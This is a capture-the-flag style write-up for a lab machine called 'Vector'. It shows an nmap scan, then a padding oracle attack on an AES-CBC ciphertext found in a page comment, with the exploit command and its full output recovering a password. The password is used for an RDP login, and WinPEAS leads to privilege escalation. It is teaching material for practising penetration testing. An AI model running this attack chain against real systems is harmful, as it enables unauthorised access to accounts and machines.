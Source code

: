 # Vector

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.119
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 17:12 +08
Nmap scan report for 192.168.233.119
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2290/tcp open  sonus-logging
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Web Enum

Port 80 reveals a basic login page:

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Port 2290 was also a HTTP port, and it returned something simple:

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

C? When we view the page source, there's also this part here:

```markup
</div>
	<span id="MyLabel">ERROR: missing parameter "<b>c</b>"</span>
	<!--
		AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
		Victor's TODO: Need to add authentication eventually..
	-->
</form>
```

There's a commented ciphertext, and there's also something which takes a parameter. We can try putting this ciphertext as the parameter requested.&#x20;

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

If we remove some characters, then it loads something else.

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

That's literally all of the enumeration that is possible to do.

### Paddling Oracle Attack --> RDP&#x20;

The first thing we can note is the AES mode used, which is CBC. This mode is insecure against a paddle oracle attack. For this application, it appears that when a parameter `c` (short for ciphertext) is submitted, we get a '1' if it has valid padding, else we get a '0'. This explains why the ciphertext, when submitted returns a '1'. This confirms that we need to use this attack to get the ciphertext out.&#x20;

Here's a full video explaining the paddle oracle attack (which I needed to know for my exam lol):

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

Of course, to exploit this we will leverage on automated methods since it involves brute forcing each byte of the ciphertext. Tools like `padbuster` also work if configured properly, but I opted to use the script from this repo since it was easier to configure:

{% embed url="https://github.com/mpgn/Padding-oracle-attack" %}

{% code overflow="wrap" %}
```bash
$ python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.233.119:2290 -u /?c= --error '<span id="MyLabel">0</span>' --method GET
```
{% endcode %}

This would brute force every single character out. Here's the output of it:

```
[+] Search value block :  1 

[+] Found 1 bytes : 04

[+] Found 2 bytes : 0404

[+] Found 3 bytes : 040404

[+] Found 4 bytes : 04040404

[+] Found 5 bytes : 3704040404

[+] Found 6 bytes : 743704040404

[+] Found 7 bytes : 61743704040404

[+] Found 8 bytes : 5661743704040404

[+] Found 9 bytes : 655661743704040404

[+] Found 10 bytes : 6f655661743704040404

[+] Found 11 bytes : 6c6f655661743704040404

[+] Found 12 bytes : 416c6f655661743704040404

[+] Found 13 bytes : 6d416c6f655661743704040404

[+] Found 14 bytes : 726d416c6f655661743704040404

[+] Found 15 bytes : 6f726d416c6f655661743704040404

[+] Found 16 bytes : 576f726d416c6f655661743704040404


[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

We get a password! SSH is not open on the machine, but RDP is. `xfreerdp` can be used to connect to it.&#x20;

```
$ xfreerdp /u:victor /p:WormAloeVat7 /v:192.168.233.119
```

<figure><img src="../../../.gitbook/assets/image (49) (6).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### WinPEAS --> Admin Shell

I downloaded and ran `winPEASx64.exe` on the machine, and found this output:

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

It's pretty trivial to get an administrator shell from this.&#x20;

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Rooted!
